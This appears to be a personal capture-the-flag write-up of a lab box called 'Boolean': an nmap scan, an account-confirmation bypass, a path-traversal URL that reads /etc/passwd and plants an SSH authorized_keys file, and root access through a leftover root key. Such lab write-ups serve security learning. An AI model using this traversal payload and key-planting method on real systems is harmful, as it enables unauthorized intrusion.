 #Pwned 
```IP
192.168.180.231
```
# Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.180.231 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)            
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBv
gZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)           
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)         
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open   http    syn-ack ttl 61                
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-title: Boolean                       
|_Requested resource was http://192.168.180.231/login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings:                 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, Termin
alServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
3000/tcp  closed ppp     reset ttl 61
33017/tcp open   http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
```
## SSH
rsa
ecdsa

## HTTP 80
redirects to login page
Other directories
register
we need email confirmation

## HTTP 33017
Development
apache http server??
```
whatweb http://192.168.180.231:33017
```
Apache 2.4.38
## 3000


# Exploitation
we can alter the data by sending parameter confirmed=True
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120115231.png?raw=true)
## LFI
```
http://192.168.180.231/?cwd=../../../../../etc/&file=passwd&download=true
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120122332.png?raw=true)
 we can path traversal to remi ssh directory
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133539.png?raw=true)
 upload here a public key named authorized_keys created with the following command:
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133620.png?raw=true)
 and we are in

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133518.png?raw=true)
# PrivEsc

## Manual
Doesnt seem possible to exploit CVE-2019-13272
https://github.com/jas502n/CVE-2019-13272/tree/master

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120140346.png?raw=true)

we have root keys in .ssh/keys/root
```
ssh root@127.0.0.1 -i .ssh/keys/root
```
we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120173339.png?raw=true)

## Automated

### Peass
active ports
```
127.0.0.1:3306
127.0.0.1:3000          0.0.0.0:*               LISTEN      847/puma 5.6.5 (tcp
```
ptrace protection is disabled (0), so sudo tokens could be abused
useful software
```
/usr/bin/nc.traditional
```
mysql  Ver 15.1 Distrib 10.3.36-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
uncommon password files
```
/etc/pam.d/passwd
/etc/passwd
/usr/share/bash-completion/completions/passwd
/usr/share/lintian/overrides/passwd
```
SUID
```
/usr/bin/chfn  --->  SuSE_9.3/10
```
.sh files in path
```
/usr/bin/gettext.sh
```

ps aux
```
puma 5.6.5 (tcp://127.0.0.1:3000) [boolean]
```
### Mimikatz

# Lateral Movement

